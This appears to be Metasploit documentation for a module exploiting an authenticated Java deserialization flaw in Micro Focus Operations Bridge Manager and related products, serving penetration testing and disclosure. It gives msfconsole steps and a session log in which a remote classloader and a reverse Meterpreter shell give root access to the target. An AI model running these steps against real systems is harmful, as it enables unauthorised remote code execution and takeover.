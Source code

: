 ## Vulnerable Application

This module exploits an authenticated Java deserialization that affects a truckload of Micro Focus products: 
* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3 \
* Data Center Automation version 2019.11 
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
* Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
* Hybrid Cloud Management version 2020.05 
* Service Management Automation versions 2020.5 and 2020.02

However this module was only tested with Operations Bridge Manager 2020.05.

Exploiting this vulnerability will result in remote code execution as the root user on Linux or the SYSTEM user on Windows.
Authentication is required, the module user needs to login to the application and obtain the authenticated LWSSO_COOKIE_KEY, which should be fed to the module. 
Any authenticated user can exploit this vulnerability, even the lowest privileged ones.

The exploit uses a modified ysoserial c3p0 payload. The only part that is modified is that c3p0 is built using version 0.9.1.2, so that the serialVersionUid of the target is the same as the exploit. This can be achieved by patching ysoserial's pom.xml.

For more information refer to the advisory link:
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obm_auth_rce`
4. `set rhost TARGET'`
5. `set lhost YOUR_IP`
6. `set srvhost YOUR_IP`
7. `set lwsso_cookie_key AUTHENTICATED_COOKIE`
8. `run`
9. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_obm_auth_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set rhosts 10.0.0.10
rhosts => 10.0.0.10
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set srvhost 10.0.0.1
srvhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lwsso_cookie_key "7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew.."
lwsso_cookie_key => 7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew..
msf6 exploit(multi/http/microfocus_obm_auth_rce) > check
[*] 10.0.0.10:443 - The service is running, but could not be validated.
msf6 exploit(multi/http/microfocus_obm_auth_rce) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] Using URL: http://10.0.0.1:8080/
[+] Started remote classloader server at http://10.0.0.1:8080/
[*] Sending remote classloader gadget to https://10.0.0.10/legacy/topaz/sitescope/conf/registration
[*] Sending stage (58147 bytes) to 10.0.0.10
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.9.8.10:36432) at 2021-01-28 18:13:18 +0700
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > shell
Process 1 created.
Channel 1 created.
uname -a
Linux pwned 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
```
